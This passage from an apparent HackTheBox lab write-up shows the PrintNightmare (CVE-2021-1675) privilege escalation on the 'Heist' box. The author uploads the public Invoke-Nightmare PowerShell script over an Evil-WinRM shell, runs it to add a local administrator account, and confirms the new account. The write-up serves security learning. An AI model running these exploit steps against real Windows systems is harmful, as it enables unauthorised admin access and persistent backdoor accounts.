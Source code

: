 
## Exploit Examples

### Invoke-Nightmare LPE

[Invoke-Nightmare](https://github.com/calebstewart/CVE-2021-1675) is a
PowerShell script developed by Caleb Stewart and John Hammond, and it’s quite
slick. I’ll clone their repo to my host, and rename the directory to avoid
confusion:

    
    
    oxdf@parrot$ git clone https://github.com/calebstewart/CVE-2021-1675
    Cloning into 'CVE-2021-1675'...
    remote: Enumerating objects: 40, done.
    remote: Counting objects: 100% (40/40), done.
    remote: Compressing objects: 100% (32/32), done.
    remote: Total 40 (delta 9), reused 37 (delta 6), pack-reused 0
    Receiving objects: 100% (40/40), 131.12 KiB | 3.97 MiB/s, done.
    Resolving deltas: 100% (9/9), done.
    oxdf@parrot$ mv CVE-2021-1675 invoke-nightmare
    

With the shell as chase, I’ll upload the `.ps1` file to Heist:

    
    
    *Evil-WinRM* PS C:\programdata> upload /opt/invoke-nightmare/CVE-2021-1675.ps1
    Info: Uploading /opt/invoke-nightmare/CVE-2021-1675.ps1 to C:\programdata\CVE-2021-1675.ps1
    
    Data: 238080 bytes of 238080 bytes copied
    
    Info: Upload successful!
    

I’ll import the module:

    
    
    *Evil-WinRM* PS C:\programdata> Import-Module .\CVE-2021-1675.ps1
    

Now I have access to the `Invoke-Nightmare` command. With no args, this will
add a user admin with password “P@ssw0rd”, or I can give it a username and
password myself:

    
    
    *Evil-WinRM* PS C:\programdata> Invoke-Nightmare -NewUser "0xdf" -NewPassword "0xdf0xdf"
    [+] created payload at C:\Users\Chase\AppData\Local\Temp\nightmare.dll
    [+] using pDriverPath = "C:\Windows\System32\DriverStore\FileRepository\ntprint.inf_amd64_83aa9aebf5dffc96\Amd64\mxdwdrv.dll"                                                
    [+] added user 0xdf as local administrator
    [+] deleting payload from C:\Users\Chase\AppData\Local\Temp\nightmare.dll  
    

0xdf is now a user on the host, and in the Administrators group:

    
    
    *Evil-WinRM* PS C:\programdata> net user 0xdf
    User name                    0xdf
    Full Name                    0xdf
    Comment
    User's comment
    Country/region code          000 (System Default)
    Account active               Yes
    Account expires              Never
    